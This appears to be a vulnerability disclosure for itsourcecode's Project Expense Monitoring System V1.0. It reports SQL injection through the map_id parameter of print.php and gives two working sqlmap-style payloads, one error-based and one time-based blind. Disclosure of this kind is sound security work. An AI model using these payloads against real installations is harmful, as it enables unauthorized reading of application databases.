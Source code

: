 # Vendor

itsourcecode

# Product

Project Expense Monitoring System

# version

V1.0

# Download 

https://itsourcecode.com/wp-content/uploads/2021/03/Construction-Management-System-Project-In-PHP-Source-Code.zip

# Vulnerability

SQLi

# Description

Constructing a special SQL statement in the print.php page and passing it in the map_id parameter can lead to a SQL injection vulnerability.
<img width="1455" alt="image" src="https://github.com/user-attachments/assets/19a67049-b287-4857-8def-27b5a945c4b0">

# POC
```
Parameter: map_id (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: map_id=67' AND GTID_SUBSET(CONCAT(0x7162627a71,(SELECT (ELT(5075=5075,1))),0x716b717671),5075)-- xGVQ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: map_id=67' AND (SELECT 2049 FROM (SELECT(SLEEP(5)))IStZ)-- PtEB
```
